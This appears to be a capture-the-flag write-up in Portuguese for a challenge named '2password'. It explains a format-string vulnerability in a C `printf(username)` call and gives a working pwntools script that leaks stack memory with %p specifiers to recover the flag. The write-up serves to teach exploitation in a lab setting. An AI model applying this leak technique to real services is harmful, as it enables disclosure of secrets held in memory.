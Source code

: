 ``` 2password.c
    exit(1);
  }
  readline(flag, 42LL, flag_file);
  if ( !strcmp(username, "kaiphait") && !strcmp(password1, "correct horse battery staple") && !strcmp(password2, flag) )
  {
    puts("Access granted");
  }
  else
  {
    printf("Incorrect password for user ");
    printf(username);
    putchar(10);
  }
  return 0;
}
```

A vulnerabilidade está na linha `printf(username);`.
Essa linha usa o `username` (controlado pelo usuário) diretamente em `printf` sem um _format specifier_ (como `%s`). Se nossa entrada contiver _format specifiers_ (ex: `%p`, `%x`), o `printf` vai vazar dados da _stack_!
A _flag_ é lida em um _buffer_ na _stack_ (`char flag[48]`). Como `username` também é uma variável na _stack_, a _flag_ pode estar próxima na memória. Com o _PIE_ ativado, endereços absolutos são randomizados, mas posições relativas na _stack_ durante uma execução permanecem consistentes.

A seguir o exploit que utilizamos para obter a flag:

``` exploit.py
import re
from pwn import *
pos = 1
while True:
    r = remote('chall.lac.tf', 31142)
    username = b''
    while True:
        fmt = b'%%%dp'%pos
        if len(username + fmt) > 40:
            break
        username += fmt
        pos += 1
    print(username)
    r.sendline(username)
    r.sendline(b'password1')
    r.sendline(b'password2')
    r.recvuntil(b'Incorrect password for user ')
    line = r.recvline().decode().strip()
    for m in re.finditer(r'0x[0-9a-f]{1,16}', line):
        val = int(m.group(0), 16)
        print('%016x'%val, repr(p64(val)))
```

Passo a passo:
1. **Payload de Format String**: O _username_ é preenchido com `%1p`, `%2p`, etc. Cada `%p` lê um valor da _stack_ e o exibe como _pointer_ (hex).
2. **Gatilho da Vulnerabilidade**: Quando o programa faz `printf(username)` com username guardando os *format specifiers*, os dados vazados são imprimidos.
3. **Interpretando Dados Vazados**: Essa saída contém valores hex (como `0x7ffdecfe4240`). Eles são convertidos em _chunks_ de 8 bytes e interpretados como _strings_.
